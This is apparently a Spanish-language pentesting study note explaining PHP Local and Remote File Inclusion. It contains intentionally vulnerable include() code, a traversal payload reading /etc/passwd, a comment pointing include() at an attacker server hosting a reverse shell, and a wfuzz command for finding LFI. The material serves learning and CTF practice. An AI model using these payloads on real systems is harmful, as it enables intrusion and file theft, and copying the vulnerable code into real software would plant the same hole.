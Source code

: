 # ¿Qué es File Inclusion?
El File Inclusion ("inclusión" de archivos) es una vulnerabilidad mayormente encontrada en aplicaciones web desarrolladas con PHP, la cual, debido a una falta de sanitización adecuada permite a los atacantes incluir$^1$ archivos, dando pie a ataques como RCE, robo de datos o defacement.
> `include` es una función de PHP que incluye el contenido de otro archivo dentro del script actual, se utiliza para reutilizar código, modularizar y separar lógica de presentación. Sin embargo, cuando el nombre del archivo a incluir es un input del usuario y la validación de este input es insuficiente, surge la vulnerabilidad en cuestión. Esto es un ejemplo del código que la hace posible:
```php
  <?php
$page = $_GET['page']; // Esta variable viene dada de un input del usuario
include($page . '.php'); // ¡PELIGRO!
?>
```

Esta vulnerabilidad puede ser confundida a menudo con [[Path Trasversal]] debido a que esta también permite la lectura no autorizada de archivos en el sistema. A menudo se dan a la vez y hallar una vulnerabilidad de Path Trasversal puede ser un medio mediante el cual vulnerar con File Inclusion, sin embargo no siempre es así.
Mientras que Path Trasversal se centra en manipular el path del sistema (en el contexto de los directorios) para la lectura, en File Inclusion lo que queremos es **subir** archivos al sistema.

Dentro de lo que es el File Inclusion se puede clasificar la vulnerabilidad según su lógica y funcionamiento en dos: RFI (Remote File Inclusion o "Inclusión" Remota de Archivos) y LFI (Local File Inclusion o "Inclusión Local de Archivos")
## LFI
Una vulnerabilidad Local File Inclusion explota una aplicación que incluye archivos. Si esta inclusión no está correctamente sanitizada como en el ejemplo de script más arriba, podemos modificar los parámetros de búsqueda para `include` nos sirva archivos que no deberíamos poder ver, por ejemplo, `/etc/passwd`:
```
http://example.com/index.php?page=../../../etc/passwd
```
Esto le da al atacante la capacidad de leer archivos internos, pudiendo llevar a la exfiltración de documentos o información sensible, más gravemente aún, si la página en cuestión permite la subida de archivos no sanitizada, podríamos, por ejemplo, subir una reverse shell y accederla abusando `include`. 
### LFI to RCE
A veces, es posible emplear un LFI para lograr la ejecución de código remoto a través de distintos métodos.

Utilizando el script citado abajo #FilterChainGenerator se puede llegar a ejecutar código.
## RFI
El funcionamiento de RFI es muy similar en lógica al LFI, la diferencia se da cuando una aplicación permite la inclusión de archivos remotos, normalmente a través de input del usuario, en este caso, en lugar de buscar un lugar desde el cual subir archivos para accederlos después, podríamos subir directamente la revshell con un servidor malicioso o incluso nuestra propia máquina (EXTREMADAMENTE RASTREABLE, SOLO CON PERMISO O EN CTFS)
```php
<?php

$templateUrl = $_POST[‘template_url’]; // En este ejemplo el código permite el fetch de archivos externos para customizar un blog 
include($templateUrl); // En caso de tener un servidor malicioso podríamos usar esta URL http://100.000.00.00/revshell.php

?>
```

### Recursos
[RFI/LFI Payload list](https://github.com/payloadbox/rfi-lfi-payload-list)
[PHP Filter Chain Generator](https://github.com/synacktiv/php_filter_chain_generator) #FilterChainGenerator
[Writeup d1se0 para entender LFI to RCE](https://dise0.gitbook.io/h4cker_b00k/ctf/ctfs/ctf-forbiddenhack-easy)
[Muy buen vídeo](https://youtu.be/1WIVW1d37kz)
### Cheats
```
wfuzz -t 200 -L --hc 404 -w <Diccionario de parametros> -w <Diccionario de Payloads LFI> -u "http://example.com/file.php?FUZZ=FUZ2Z"
```
Ejemplo de comando para buscar vulnerabilidades LFI mediante fuzzing, harán falta dos diccionarios por los que iterar para parámetros y payloads  
### Artículos / fuentes
[Indusface](https://www.indusface.com/learning/file-inclusion-attacks-lfi-rfi/)
[Payloads all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion)
[Bypasses para FI de PATT](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#null-byte)
[DeepHacking](https://deephacking.tech/local-file-inclusion-lfi-web/#proc-self-fd-o-dev-fd)
[xerosec](https://youtu.be/8r1HQVZZ6hU)